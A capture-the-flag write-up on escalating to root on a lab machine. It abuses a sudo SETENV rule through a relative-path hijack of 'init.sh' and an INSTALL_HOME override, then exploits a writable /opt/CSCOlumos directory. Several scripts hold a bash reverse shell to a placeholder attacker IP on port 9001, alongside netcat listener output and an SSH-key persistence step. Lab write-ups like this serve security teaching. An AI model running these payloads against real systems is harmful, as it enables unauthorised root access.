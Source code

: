 # Prime Time (root)
<p align="center">
    <img src="img/prime_time_root_chall.png" alt="Challenge" width="500"/>
</p>

The shell we got from exploiting the ActiveMQ service only gives us a *pseudo-shell* (which is a bit annoying to use), so we start by adding our ssh public-key to `/home/activemq/.ssh/authorized_keys` so that we can ssh into the machine.

As the user `prime` we have some sudo-rights which we are going to exploit to root the machine.
```console
[prime@ip-10-128-2-125 ~]$ sudo -l
Matching Defaults entries for prime on ip-10-128-2-125:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin, env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS",
    env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE", env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES",
    env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE", env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User prime may run the following commands on ip-10-128-2-125:
    (ALL) SETENV: NOPASSWD: /opt/CSCOlumos/rcmds/
```

We are allowed to set environment variables and run scripts located in `/opt/CSCOlumos/rcmds/`. Inside this directory there are 88 (!) scripts which we can run.
```console
[prime@ip-10-128-2-125 ~]$ ls /opt/CSCOlumos/rcmds/ -l | wc -l
88
```

With this many scripts to analyze for vulnerabilities the easiest method is probably to look at the smaller ones. There are multiple scripts which can be abused to escalate our privileges to root, using the same method(s). I ended up using the `hmadmin.sh` script to solve the challenge.
```console
[prime@ip-10-128-2-125 rcmds]$ cat hmadmin.sh
#!/bin/bash
. init.sh

$INSTALL_HOME/bin/hmadmin.sh
```

It first executes `init.sh`, which is a script doing a lot of stuff (e.g. set the `$INSTALL_HOME` environment variable to `/opt/CSCOlumos`), but most importantly, its path is not absolute. This means that we can be in any directory executing `/opt/CSCOlumos/rcmds/hmadmin.sh`, and the it will search for `init.sh` in our current working directory. Because we can execute `/opt/CSCOlumos/rcmds/hmadmin.sh` as root, and that script executes `init.sh` in our CWD (in this case /dev/shm), we can create an `init.sh` which gives us a reverse shell.
```console
[prime@ip-10-128-2-125 shm]$ pwd
/dev/shm
[prime@ip-10-128-2-125 shm]$ ls
init.sh
[prime@ip-10-128-2-125 shm]$ cat init.sh
#!/bin/bash

/bin/bash -c "sh -i >& /dev/tcp/<attacker_ip>/9001 0>&1"
```

Running the command `sudo /opt/CSCOlumos/rcmds/hmadmin.sh` and listening on port 9001 with `nc -lnvp 9001` then gives us shell as root!
```console
$ nc -lnvp 9001
listening on [any] 9001 ...
connect to [<attacker_ip>] from (UNKNOWN) [10.128.2.125] 34292
sh-4.2# id
id
uid=0(root) gid=0(root) groups=0(root) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
sh-4.2# cat /root/root.txt
cat /root/root.txt
EPT{5b2f8f8681b6621b519ef09adf371174}
```


**Note:** During the ctf my exploit looked a little different. I made my own `init.sh` which basically was empty, created my own `bin/hmadmin.sh` in CWD which executed the reverse shell, and set the `INSTALL_HOME` environment variable to CWD to execute my own `bin/hmadmin.sh` file. This lead to the *real* `hmadmin.sh` to search for and execute my `bin/hmadmin.sh`
```console
[prime@ip-10-128-2-125 shm]$ pwd
/dev/shm
[prime@ip-10-128-2-125 shm]$ ls
bin  init.sh
[prime@ip-10-128-2-125 shm]$ ls bin
hmadmin.sh
[prime@ip-10-128-2-125 shm]$ cat init.sh
#!/bin/bash

echo "Executed"
[prime@ip-10-128-2-125 shm]$ cat bin/hmadmin.sh
#!/bin/bash

/bin/bash -c "sh -i >& /dev/tcp/<attacker_ip>/9001 0>&1"
```

Running the command `sudo INSTALL_HOME=/dev/shm /opt/CSCOlumos/rcmds/hmadmin.sh` gives a reverse shell as root, similar to the other technique.

## Bonus: Prime Time (root)
In addition to the `path hijack` vulnerability to escalate privileges to root, there is an `insecure file permission` vulnerability as well that can be exploited!

As a reminder, we can run scripts located in `/opt/CSCOlumos/rcmds/` as root.
<p align="center">
    <img src="img/prime_time_meme.png" alt="Meme" width="500"/>
</p>

Whoops...
```console
[prime@ip-10-128-3-174 CSCOlumos]$ pwd
/opt/CSCOlumos
[prime@ip-10-128-3-174 CSCOlumos]$ ls -al
total 172
drwxrwxr-x. 60 prime root     4096 Nov  5 06:15 .
drwxr-xr-x.  4 root  root       39 Oct 15 03:42 ..
```

Apparently, we just own the directory `/opt/CSCOlumos/` as the user `prime`, so we can create a new `rcmds` directory with any scripts we want inside, and run them as root...
```console
[prime@ip-10-128-3-174 CSCOlumos]$ pwd
/opt/CSCOlumos
[prime@ip-10-128-3-174 CSCOlumos]$ ls rcmds/
shell.sh
[prime@ip-10-128-3-174 CSCOlumos]$ cat rcmds/shell.sh
#!/bin/bash

/bin/bash -c "sh -i >& /dev/tcp/<attacker_ip>/9001 0>&1"
```

Running this script gives us a root shell once again.
```console
$ nc -lnvp 9001
listening on [any] 9001 ...
connect to [<attacker_ip>] from (UNKNOWN) [10.128.3.174] 52254
sh-4.2# id
id
uid=0(root) gid=0(root) groups=0(root) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
```
